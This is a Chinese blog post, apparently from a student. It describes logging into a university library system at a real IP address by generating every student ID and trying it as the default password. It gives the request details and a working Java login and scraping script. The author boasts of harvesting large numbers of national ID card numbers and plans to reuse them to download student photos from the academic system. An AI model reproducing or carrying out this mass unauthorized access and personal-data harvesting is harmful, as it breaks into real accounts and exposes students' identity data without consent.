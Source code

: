 ```yaml
---
layout: mypost
title: 学校图书馆登陆模拟
categories: [java,小技巧]
---
```


最近学校宽带总是断网，没办法只能访问学校的内网，很是无聊

打发时间，打算把全校所有学生照片爬取下来

基本思路就是从图书借阅系统入手，登陆名为学号，初始密码是学号，一般很少有人改动，登陆成功后从个人信息那里可以获取到身份证号。根据学号生成的规律把大一到大四的所有学号生成出来，然后模拟登陆，大量身份证号get

其次是教务管理系统，登录名为学号，登陆密码是身份证号，也是很少有人改动，模拟登陆，然后在个人信息那里有一张个人照片，解析到照片地址，下载haha

## 登陆原理

1. 浏览器第一次访问登陆时，没有携带sessionid，然后服务器会生成一个sessionid，并在cookie里面返回sessionid，带给浏览器，之后我们的任何访问都会带上这个sessionid

2. 登录时，我们的name和password和Cookie(里面记录了sessionid)都是提交给服务器，如果密码正确，服务器会把用户和sessionid关联，应该是`getSession.setAttribute("name",name)`之类的操作

3. 访问后台的一些页面时，sessionid会跟随Cookie携带过去，原理应该是`getSession.getAttribute("name")`之类的操作，如果不空，根据获得的name进行操作，如果为空则302到登陆界面

4. 注销操作，应该是类似`getSession.removeAttribute("name")`的操作

## 请求分析

使用F12开发工具对登陆的请求分析

General

```
Request URL:http://210.45.147.188:8080/reader/redr_verify.php
Request Method:POST
Status Code:302 Found
Remote Address:210.45.147.188:8080
```

Request

```
POST /reader/redr_verify.php HTTP/1.1
Host: 210.45.147.188:8080
Origin: http://210.45.147.188:8080
Content-Type: application/x-www-form-urlencoded
Referer: http://210.45.147.188:8080/reader/redr_verify.php
Cookie: PHPSESSID=hknd8ummdi8tbe5dve7osrm6e4
```

Form Data

```
number=xxx&passwd=xxx&select=cert_no&returnUrl=
```

Response

```
Content-Type:text/html
Location:redr_info.php
Server:Apache/2.2.22 (Win32) PHP/5.2.17
X-Powered-By:PHP/5.2.17
```

## 图书馆登陆代码

```java
public class Main {
	public static void main(String[] args) throws IOException {

		String number= "***";
		String passwd = "****";
		
		//第一次让服务器建立一个sessionid，获取到这个id
		URL httpUrl =  new URL("http://210.45.147.188:8080/reader/login.php");
		HttpURLConnection conn = (HttpURLConnection) httpUrl.openConnection();
		String sessionIdStr = conn.getHeaderField("Set-Cookie").substring(0,36);
		conn.disconnect();
		
		//第二次访问登陆验证，带上sessionid，发现get可以直接登陆
		//密码正确的话是一个302跳转
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_verify.php?number="+number+"&passwd="+passwd+"&select=cert_no&returnUrl=");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		//为了获取302返回的Location,所以禁止自动跳转到302之后的地址
		conn.setInstanceFollowRedirects(false);
		String location = conn.getHeaderField("Location");

		boolean goNext = false;
		if ("redr_con.php".equals(location)) {
			System.out.println("您尚未完成身份认证，请进行身份核实, 如果认证失败，您将不能使用我的图书馆功能");
		}else if(location==null){
			System.out.println("对不起，密码错误，请查实！");
		}else{//redr_info.php
			System.out.println("成功登入系统....");
			goNext = true;
		}
		conn.disconnect();
		
		if (!goNext) {
			return;
		}

		//进入用户信息首页
		//登陆成功时，服务器会把账号和sessionid，后面的操作都不需要用户名和密码了
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_info.php");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		
		//输出学生信息
		showUserInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
        
		//输出所有历史借阅信息
		httpUrl =  new URL("http://210.45.147.188:8080/reader/book_hist.php?para_string=all");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		showBorrowInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
	}
	
	//显示个人信息
	public static void showUserInfo(String htmlStr){
		//使用Jsoup解析Html文档
		Document document = Jsoup.parse(htmlStr);
		Elements tds = document.getElementById("mylib_info").getElementsByTag("td");
		Elements spans = document.getElementById("mylib_info").getElementsByTag("span");
		for(int i=1;i<tds.size();i++){
			System.out.println(spans.get(i).ownText()+tds.get(i).ownText());
		}
	}
	
	//显示所有借阅历史
	public static void showBorrowInfo(String htmlStr){
		
		Document document = Jsoup.parse(htmlStr);
		Elements trs = document.getElementById("mylib_content").getElementsByTag("tr");
		
		for(Element tr:trs){
			for(Element td:tr.getElementsByTag("td")){
				if (td.getElementsByTag("a").size()!=0) {
					System.out.print(td.getElementsByTag("a").get(0).ownText()+"\t");
				}else{
					System.out.print(td.ownText()+"\t");
				}
			}
			System.out.println();
		}
	}
	
	public static String changeStreamToString(InputStream inputStream,String edcode) throws IOException{
		BufferedReader in = new BufferedReader(new InputStreamReader(inputStream,edcode));
		String line;
		StringBuffer result = new StringBuffer();
		while ((line = in.readLine()) != null)
        		result.append(line);
		return result.toString();
	}
}
```

### 效果

![p01](01.jpg)

![p02](02.jpg)

## 教务系统登陆

原理同上，和图书馆登陆一样，也是基于session认证

MD 搬到新校区后，第一次登陆教务系统要改密码，全都改了，还不能是纯数字，没办法进行下去了...

就到这里了，反正弄到一大堆身份证号o(≧v≦)o~~好棒